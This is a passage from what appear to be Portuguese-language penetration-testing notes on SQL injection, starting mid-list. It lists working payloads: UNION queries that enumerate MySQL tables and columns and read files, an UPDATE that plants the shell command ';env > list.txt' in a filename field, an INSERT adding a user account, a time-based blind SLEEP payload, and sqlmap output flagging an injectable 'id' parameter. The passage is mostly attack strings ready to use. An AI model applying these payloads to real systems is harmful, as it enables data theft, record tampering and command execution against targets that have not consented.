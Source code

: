                 - MongoDB:
                    
                    ```php
                    db.version()
                    ```
                    
            - Trazendo nomes das tabelas
                - Mysql
                    
                    ```bash
                    UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() -- -
                    ```
                    
            - Trazendo colunas da tabela
                - Mysql
                    
                    ```bash
                    UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='users'--
                    ```
                    
            - Lendo arquivos com UNION
                
                ```bash
                id=4 UNION SELECT 'files/adorable.jpg'--
                ```
                
            - Alterando registro
                
                ```bash
                UPDATE photos SET filename=";env > list.txt" where id=3 ;commit;--
                ```
                
            - Criando registro
                
                ```php
                INSERT INTO users (username, password) VALUES ('alice', 'absolem'); -- -
                ```
                
        - Time-based
            
            ```php
            admin" AND (SELECT 9936 FROM (SELECT(SLEEP(5)))xWxn)-- -
            ```
            
        - sqlmap
            - Resultados
                
                ```bash
                [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
                
                [*] starting @ 08:16:28 /2023-04-24/
                
                [08:16:28] [INFO] testing connection to the target URL
                [08:16:33] [INFO] testing if the target URL content is stable
                [08:16:36] [INFO] target URL content is stable
                [08:16:37] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
                [08:16:38] [INFO] testing for SQL injection on GET parameter 'id'
                [08:16:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
                [08:16:44] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
                [08:16:50] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'Microsoft Access' 
                it looks like the back-end DBMS is 'Microsoft Access'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
                for the remaining tests, do you want to include all tests for 'Microsoft Access' extending provided level (1) and risk (1) values? [Y/n] Y
                [08:16:50] [INFO] testing 'Generic inline queries'